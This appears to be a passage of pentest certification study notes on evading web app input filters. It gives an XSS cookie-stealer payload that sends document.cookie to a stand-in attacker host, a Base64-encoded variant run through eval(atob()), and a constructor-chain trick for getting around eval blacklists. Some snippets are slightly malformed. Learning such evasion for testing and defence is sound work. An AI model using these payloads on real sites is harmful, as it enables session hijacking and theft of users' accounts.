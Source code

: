 ```yaml
---
title: "2 - Evasion Basics"
classes: single
header:  
  teaser: /assets/images/posts/ewptx/ewptx-teaser3.jpg
  overlay_image: /assets/images/main/header4.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Some basic techniques for evasion in WEB APP scenario"
description: "Base64 encoding, obfuscations, compressing, escapes and More"
categories:
  - notes
  - ewptx
tags:
  - advanced
  - pentest
  - web
  - bypass
toc : true
---
```

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="nullified" data-description="Support me on Buy me a coffee!" data-message="" data-color="#FF813F" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

## Base64 Encoding Evasion
- Lets suppose that we want to evade a system that inspects Javascript code For specific keywords like eval, alert, prompt, document.cookie, or other potential malicious strings.
- A possible way to escapse these kinds of filters is by using Base64 encoding.

### Cookie Stealer
To steal cookies, not marked as HttpOnly is relatively easy and we commonly use this JavaScript payload:
```js
location.href = 'http://evilpath;com/?c='+escape(document.cookie)''
```

- however often the document.cookie keyword may be detected and blocked

Use Base64 encoding, we can hide document.cookie code translating the attack vector into:
```js
eval(atob(bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGg7Y29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=))
```

- perhaps the eval function is blacklisted too, so lets see alternatives:

in Javascript:
```js
[].constructor.constructor("code")() //where code equals 'atob(<base64 script>)'
```
